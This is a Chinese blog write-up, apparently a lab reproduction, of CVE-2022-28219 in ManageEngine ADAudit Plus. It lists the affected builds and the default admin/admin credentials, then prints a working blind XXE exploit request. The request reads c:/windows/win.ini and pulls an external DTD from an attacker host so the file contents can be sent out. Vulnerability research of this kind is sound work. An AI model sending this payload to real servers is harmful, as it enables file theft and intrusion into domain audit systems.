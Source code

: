 title: CVE-2022-28219 ManageEngine ADAudit Plus XXE to RCE
author: bmth
tags:
  - CVE-2022-28219
top_img: 'https://img-blog.csdnimg.cn/46c595ddde3443a7adb3da43d795b808.png'
cover: 'https://img-blog.csdnimg.cn/46c595ddde3443a7adb3da43d795b808.png'
categories:
  - java
date: 2023-04-06 17:21:00
---
很有意思的一个洞，复现的同时学习一下java中xxe的攻击手法

漏洞公告：
[https://www.manageengine.com/products/active-directory-audit/cve-2022-28219.html](https://www.manageengine.com/products/active-directory-audit/cve-2022-28219.html)

影响版本：All ADAudit Plus builds below 7060

## 漏洞复现
在域控中下载存在漏洞的版本：[https://archives2.manageengine.com/active-directory-audit/7055/ManageEngine_ADAudit_Plus_x64.exe](https://archives2.manageengine.com/active-directory-audit/7055/ManageEngine_ADAudit_Plus_x64.exe)
默认安装即可，访问8081端口
![](https://img-blog.csdnimg.cn/46c595ddde3443a7adb3da43d795b808.png)

默认账号密码为admin/admin

### XXE
首先是一个无回显的XXE漏洞，如果单纯使用HTTP协议，是无法读取具有换行的文件的，那么就需要使用工具：[https://github.com/LandGrey/xxe-ftp-server](https://github.com/LandGrey/xxe-ftp-server)，即使用FTP协议来向外传递数据

并且在jdk老版本中的xxe可以通过`file://`和`netdoc://`协议读文件以及**列目录**，我们可以看到下载的jdk版本为`1.8.0_51`低版本
![](https://img-blog.csdnimg.cn/c4536549343e40ada2a05e27a793f4fa.png)

具体细节可参考：[9102年Java里的XXE](https://www.leadroyal.cn/p/914/)

exp：(需要知道域名)
```
POST /api/agent/tabs/agentData HTTP/1.1
Host: 192.168.111.138:8081
Accept-Encoding: gzip, deflate
Accept: */*
Connect: keep-alive
Content-Length: 369
Content-Type: application/json


[
    {
        "DomainName": "test.org",
        "EventCode": 4688,
        "EventType": 0,
        "TimeGenerated": 0,
        "Task Content": "<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE data [  <!ENTITY % file SYSTEM \"file:///c:/windows/win.ini\">  <!ENTITY % dtd SYSTEM \"http://192.168.111.1:3000/data.dtd\"> %dtd;]><data>&send;</data>"
    }
]
```
![](https://img-blog.csdnimg.cn/f80f309d2a8446ffa83f4c18a02c7542.png)
